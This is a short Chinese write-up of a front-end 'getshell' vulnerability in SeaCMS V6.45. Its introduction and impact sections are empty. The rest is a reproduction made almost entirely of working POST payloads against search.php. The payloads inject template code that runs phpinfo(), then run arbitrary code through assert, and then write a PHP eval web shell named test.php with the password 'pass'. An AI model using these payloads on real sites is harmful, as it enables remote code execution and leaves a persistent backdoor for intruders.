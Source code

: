 海洋CMS V6.45 前台getshell
==========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

<http://0-sec.org/search.php?searchtype=5>

POST

    searchtype=5&order=}{end if} {if:1)phpinfo();if(1}{end if}
    searchtype=5&searchword=d&order=}{end if}{if:1)print_r($_POST[func]($_POST[cmd]));//}{end if}&func=assert&cmd=phpinfo();

一句话payload，文件test.php 密码pass:

path:

    http://0-sec.org/search.php
    }{end if}{if:1)print_r($_POST[func]($_POST[cmd]));//}{end if}&func=assert&cmd=fwrite(fopen("test.php","w"),'<?php eval($_POST["pass"]);?>'
